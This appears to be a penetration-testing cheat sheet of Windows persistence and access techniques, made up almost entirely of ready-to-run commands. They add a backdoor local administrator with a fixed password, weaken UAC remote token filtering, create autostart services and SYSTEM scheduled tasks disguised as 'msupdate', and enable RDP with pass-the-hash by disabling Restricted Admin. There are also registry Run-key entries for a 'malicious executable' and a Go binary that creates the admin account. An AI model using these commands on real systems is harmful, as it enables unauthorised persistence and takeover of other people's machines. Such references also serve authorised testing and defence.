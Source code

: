 # Windows

### Create new user

```powershell
net user mylocaladmin p@ssw0rd! /add /expires:never
net localgroup administrators mylocaladmin /add
```

Create user **mylocaladmin** with password **p@ssw0rd!** and add it to **administrators** group.



Change registry settings to allow local administrator accounts to perform administrative tasks remotely without restrictions

```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```



### Create service

_Make a service, with autostart. Before need prepare special payload, that is a service binary._&#x20;

```
sc.exe create "monitexp" binPath= "C:\PathToServiceBinary" type= own start= auto
```

_Then start service_

```
Start-Service -Name "monitexp"
```

### Background jobs

```powershell
$job = Start-Job { c:/ProgramData/file.exe -args }
```

_Receive output_

```powershell
Receive-Job -Job $job -Keep
```

### Scheduled task

#### schtasks.exe

_Task create:_

```
schtasks /create /tn msupdate /tr "powershell -w h calc.exe" /sc MINUTE /mo 5 /f /ru SYSTEM
```

Task info

```
schtasks /query /tn msupdate /v /fo list
```

Force the task to star&#x74;_:_

```
schtasks /run /tn msupdate /i
```

_Delete task:_

```
schtasks /delete /tn msupdate /f
```



### Provide RDP access

#### Turn on RDP

```powershell
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

#### Bypass Restricted Admin Mode&#x20;

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

#### Connect

```powershell
xfreerdp /v:172.16.222.254 /u:username /pth:<NT_HASH> /dynamic-resolution +clipboard
```

### Go based binary to create local admin

```go
package main

import (
	"fmt"
	"log"
	"os/exec"
)

func main() {
	addUserCmd := "net user mylocaladmin p@ssw0rd! /add /expires:never"
	addToAdminGroupCmd := "net localgroup administrators mylocaladmin /add"

	err := executeCommand(addUserCmd)
	if err != nil {
		log.Fatal(err)
	}

	err = executeCommand(addToAdminGroupCmd)
	if err != nil {
		log.Fatal(err)
	}

}

func executeCommand(command string) error {
	cmd := exec.Command("cmd", "/C", command)

	output, err := cmd.CombinedOutput()
	if err != nil {
		return fmt.Errorf("err: %s\noutput : %s", err, output)
	}
	return nil
}

```

### Registry

#### What are Run keys? <a href="#id-0908" id="id-0908"></a>

There are two different types of run keys: Those that get run once and those that get run every time the user logs in.

The following key get run everytime a specific user logs in. You will have to specify the SID of the user:

```
HKEY_USERS\<sid>\Software\Microsoft\Windows\CurrentVersion\Run\
```

The following registry key runs every time any user logs into the machine:

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\
```

The run once keys are only executed once. If your malware uses these keys to persist, then it should contain a function to add this key every time it gets executed.

#### Command Prompt / CMD <a href="#id-2c89" id="id-2c89"></a>

With `reg add KEY_NAME /V VALUE_NAME /d DATA /f` you can add a new key.

* `KEY_NAME` should be the registry key name, e.g. “run once key”.
* `VALUE_NAME` should be the name of the entry.
* `DATA` should be the data of the entry, for example the path to your malicious executable.

#### Code <a href="#d9e5" id="d9e5"></a>

Of course you can also implement the creation of a registry key in your code. In C# you can do that with the following code:

```csharp
Microsoft.Win32.RegistryKey key; 
key = Microsoft.Win32.Registry.CurrentUser.CreateSubKey("My_Key"); key.SetValue("My_Key", "Test"); 
key.Close();
```

#### Registry run keys

**HKCU**

```powershell
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Pentestlab /t REG_SZ /d "C:\Users\pentestlab\pentestlab.exe"
```

**HKLM**

```powershell
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Pentestlab /t REG_SZ /d "C:\tmp\pentestlab.exe"
```

* `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
* `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`

DIfference: `HKCU` → for current user only, `HKLM` → for all

